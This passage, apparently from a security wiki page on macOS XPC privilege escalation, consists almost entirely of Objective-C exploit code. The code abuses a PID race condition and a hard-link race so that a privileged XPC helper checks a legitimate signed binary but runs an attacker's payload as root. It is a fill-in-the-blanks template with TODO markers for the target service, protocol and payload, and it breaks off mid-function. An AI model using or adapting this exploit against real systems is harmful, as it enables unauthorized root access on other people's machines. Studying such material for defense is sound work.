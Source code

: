 {% tab title="fork" %}
This example uses a raw **`fork`** to launch **children that will exploit the PID race condition** and then exploit **another race condition via a Hard link:**

```objectivec
// export OBJC_DISABLE_INITIALIZE_FORK_SAFETY=YES
// gcc -framework Foundation expl.m -o expl

#include <Foundation/Foundation.h>
#include <spawn.h>
#include <pthread.h>

// TODO: CHANGE PROTOCOL AND FUNCTIONS
@protocol HelperProtocol
- (void)DoSomething:(void (^)(_Bool))arg1;
@end

// Global flag to track exploitation status
bool pwned = false;

/**
 * Continuously overwrite the contents of the 'hard_link' file in a race condition to make the 
 * XPC service verify the legit binary and then execute as root out payload.
 */
void *check_race(void *arg) {
    while(!pwned) {
        // Overwrite with contents of the legit binary
        system("cat ./legit_bin > hard_link");
        usleep(50000);

        // Overwrite with contents of the payload to execute
        // TODO: COMPILE YOUR OWN PAYLOAD BIN
        system("cat ./payload > hard_link");
        usleep(50000);
    }
    return NULL;
}

void child_xpc_pid_rc_abuse(){
    // TODO: INDICATE A VALID BIN TO BYPASS SIGN VERIFICATION
    #define kValid "./Legit Updater.app/Contents/MacOS/Legit"
    extern char **environ;

    // Connect with XPC service
    // TODO: CHANGE THE ID OF THE XPC TO EXPLOIT
    NSString*  service_name = @"com.example.Helper";
    NSXPCConnection* connection = [[NSXPCConnection alloc] initWithMachServiceName:service_name options:0x1000];
    // TODO: CNAGE THE PROTOCOL NAME
    NSXPCInterface* interface = [NSXPCInterface interfaceWithProtocol:@protocol(HelperProtocol)];
    [connection setRemoteObjectInterface:interface];
    [connection resume];

    id obj = [connection remoteObjectProxyWithErrorHandler:^(NSError* error) {
        NSLog(@"[-] Something went wrong");
        NSLog(@"[-] Error: %@", error);
    }];

    NSLog(@"obj: %@", obj);
    NSLog(@"conn: %@", connection);

    // Call vulenrable XPC function
    // TODO: CHANEG NAME OF FUNCTION TO CALL
    [obj DoSomething:^(_Bool b){
```